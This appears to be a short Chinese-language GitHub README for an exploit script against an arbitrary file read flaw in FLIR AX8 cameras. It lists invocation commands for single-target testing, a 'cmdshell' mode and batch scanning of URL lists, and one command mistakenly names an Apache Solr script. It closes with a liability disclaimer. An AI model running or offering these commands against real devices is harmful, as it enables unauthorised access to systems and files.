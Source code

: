 # FLIR-AX8_fileread

FLIR-AX8存在任意文件读取漏洞.


## 工具利用

python3 FLIR-AX8_fileread.py -u http://127.0.0.1:1111 单个url测试

python3 FLIR-AX8_fileread.py -c http://127.0.0.1:1111 cmdshell模式
![exp](./exp.png)

python3 Apache_solr_fileread.py -f url.txt 批量检测

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
